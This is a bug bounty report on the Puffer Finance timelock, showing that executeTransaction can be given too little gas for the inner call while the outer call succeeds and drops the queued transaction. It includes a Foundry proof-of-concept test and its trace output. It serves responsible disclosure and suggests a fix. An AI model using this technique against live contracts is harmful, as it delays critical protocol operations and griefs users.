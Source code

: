 
# Timelock transaction that consume more then `209_595` gas will not be executed but the upper transaction will succeed

Submitted on Feb 22nd 2024 at 17:00:05 UTC by @OxDEADBEEF for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28623

Report type: Smart Contract

Report severity: Low

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value
- Temporary freezing of funds for at least 1 hour
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

The timelock's `executeTransaction` does not validate that it has enough gas to execute the underlying transaction.  Because of eip-150's `63/64` gas rule - transactions that need more then `209_595` gas to execute can fail due to out of gas while the parent transaction transaction has enough gas (1/64) to successfully finish the transaction

## Vulnerability Details

`executeTransaction` calls the `target` with the `callData`. 
```solidity
    function executeTransaction(address target, bytes calldata callData, uint256 operationId)
        external
        returns (bool success, bytes memory returnData)
    {
--------------
        queue[txHash] = 0;
        (success, returnData) = _executeTransaction(target, callData);

        emit TransactionExecuted(txHash, target, callData, operationId);

        return (success, returnData);
    }
    
function _executeTransaction(address target, bytes calldata callData) internal returns (bool, bytes memory) {
        // slither-disable-next-line arbitrary-send-eth
        return target.call(callData);
    }
```

As can be seen above - After calling the target, not much gas is needed to finish the transaction. After EIP-150 the EVM reserves 1/64 of the gas consumed target so that `executeTransaction` can finish the transaction. 
As seen in the POC - the minimum amount of gas target needs to consume in order to leave enough gas for the transaction to succeed is `209_595`. 

If target needs more then that - the target can fail due to out of gas while the `executeTransaction` and the transaction will be deleted from the queue: 

1. `executeTransaction` is called with `214_640` gas.
2. `target` consumes all `209_595` gas and runs out
3. Upper transaction did not revert and `queue[txHash] = 0;` . 

I suggest to check after the call to target if there is more then needed gasleft 

## Impact Details

When the `OPERATIONS_MULTISIG` calls `executeTransaction` to execute a long waited transaction it can by mistake or maliciously set the exact gas needed for `executeTransaction` to succeed but the underlying call to target will fail. 

This means that the transaction would need to be listed again in the timelock. If the call to target resolves around movement of funds or any other critical operation - it will be delayed


## Proof of Concept

Add the following function to `Timelock.t.sol`

```solidity
    function gasConsumingFunc() external {
        uint256 gasToConsume = 209595;
        uint256 gasStart = gasleft();
        for(uint256 i = 0; gasStart - gasleft() < gasToConsume; i++ ) {
            assembly {
                let x := mload(0x1337)
            }
        }
    }
    function test_execute_fails() public {
        vm.startPrank(timelock.OPERATIONS_MULTISIG());

        bytes memory callData = abi.encodeCall(this.gasConsumingFunc, ());

        uint256 operationId = 1234;

        bytes32 txHash = timelock.queueTransaction(address(this), callData, operationId);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        
        vm.warp(lockedUntil + 20);

        uint256 gasToUse = 214_640;
        timelock.executeTransaction{gas: gasToUse}(address(this), callData, operationId);
    }
```

To run the test:
```
forge test --match-test test_execute_fails -vvvv
```

Expected output:
```
[PASS] test_execute_fails() (gas: 236021)
Traces:
  [236021] TimelockTest::test_execute_fails()
    ├─ [227] Timelock::OPERATIONS_MULTISIG() [staticcall]
    │   └─ ← operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6]
    ├─ [0] VM::startPrank(operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6])
    │   └─ ← ()
    ├─ [29140] Timelock::queueTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ emit TransactionQueued(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234, lockedUntil: 604802 [6.048e5])
    │   └─ ← 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d
    ├─ [404] Timelock::delay() [staticcall]
    │   └─ ← 604801 [6.048e5]
    ├─ [0] VM::warp(604822 [6.048e5])
    │   └─ ← ()
    ├─ [214640] Timelock::executeTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
    │   ├─ emit TransactionExecuted(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234)
    │   └─ ← false, 0x
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```

As can be seen the transaction succeeds while `gasConsumingFunc` fails
```
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
---------
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```